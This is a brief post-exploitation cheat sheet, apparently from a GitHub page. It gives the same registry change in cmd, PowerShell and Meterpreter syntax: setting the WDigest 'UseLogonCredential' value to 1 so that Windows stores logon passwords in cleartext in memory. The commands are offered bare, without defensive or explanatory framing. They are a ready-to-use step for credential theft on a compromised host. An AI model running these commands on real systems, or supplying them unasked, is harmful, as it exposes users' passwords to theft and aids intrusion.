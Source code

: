  ### Cmd
	>reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
 ### powershell
	>Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
 ### meterpreter
	>reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1